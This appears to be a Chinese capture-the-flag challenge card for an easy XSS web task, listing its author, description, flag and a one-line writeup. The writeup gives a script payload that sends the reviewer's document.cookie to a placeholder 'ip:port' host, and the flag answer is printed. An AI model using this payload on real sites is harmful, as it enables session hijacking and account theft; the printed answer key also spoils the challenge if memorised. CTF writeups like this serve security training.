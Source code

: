 * **题目名称：** kk园区审核员

* **题目类型：** WEB

* **题目难度：** 容易 

* **出题人：** pANz0e

* **考点：**  

1. xss


* **描述：**  善良的出题人组织了一次kk园区的参观活动，现在收集有意向前往的人员信息，提交后工作人员会第一时间审核哦，审核通过还能得到审核的美味曲奇奖励！~

* **flag：**xsctf{Y0u_succ3s5ful1y_x55_m3}

* **Writeup：** 随便找个xss地方`<script>new Image().src="http://ip:port/"+document.cookie</script>`，点击提交即可
